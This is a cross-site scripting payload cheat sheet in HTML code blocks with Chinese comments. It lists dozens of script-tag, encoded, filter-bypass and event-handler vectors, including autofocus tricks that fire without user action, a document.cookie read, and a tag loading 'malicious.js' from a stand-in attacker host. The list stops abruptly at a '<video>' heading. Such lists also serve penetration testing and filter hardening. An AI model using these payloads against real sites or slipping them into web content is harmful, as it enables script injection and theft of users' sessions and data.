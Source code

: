 ```html
<script>
<script>alert(123)</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>+alert(1)</script>
<script>setTimeout(alert(1),0)</script>
<script src=data:text/javascript,alert(1)></script>
<script>alert(String.fromCharCode(49,49))</script>
<<SCRIPT>alert("XSS");
//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<script///////////////////////////////////////////////>alert(123)</script>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
"><script>alert(123)</script>
'><script>alert(123)</script>
><script>alert(123)</script>
</script><script>alert(123)</script>
--><script>alert(123)</script>
><script>alert(123);</script x=
<script>alert/(a/)</script>
<script NAUGHTY_HACKER>alert(1)</script NAUGHTY_HACKER>
%3cscript%3ealert("XSS");%3c/script%3e
&ltscript&gtalert(document.cookie);</script>

//绕过进行一次移除操作:
<scr<script>ipt>alert("XSS")</scr<script>ipt>

//Script 标签可以用于定义一个行内的脚本或者从其他地方加载脚本:
<script>alert("XSS")</script>
<script src="http://attacker.org/malicious.js"></script>
```
```html
<img>
<img src=1 onerror=alert(1)>
<img src=x onerror=alert(123) />
'"><iMg SrC=x OnErRoR=alert(1)>{{7*7}}

<input>
<input onfocus="alert('xss');">
<input onblur=alert("xss") autofocus><input autofocus> //竞争焦点,从而触发onblur事件
<input onfocus="alert('xss');" autofocus>  //通过autofocus属性执行本身的focus事件,这个向量是使焦点自动跳到输入元素上,触发焦点事件,无需用户去触发
<input type="image" formaction=JaVaScript:alert(0)>

<details>
<details open OntogGle="alert(1)">  //使用open属性触发ontoggle事件,无需用户去触发

<svg>
<svg onload=alert("xss");>
<svg><script>alert(123)</script>
<svg/onload=prompt(1);>
<svg><script>alert&#114;&1#29;</script>
<svg><script>123<1>alert(123)</script>

<select>
<select onfocus=alert(1)></select>
<select onfocus=alert(1) autofocus> //通过autofocus属性执行本身的focus事件

<iframe>
<iframe onload=alert("xss");></iframe>
<IFRAME SRC="javascript:alert(29);"></IFRAME>

<video>
```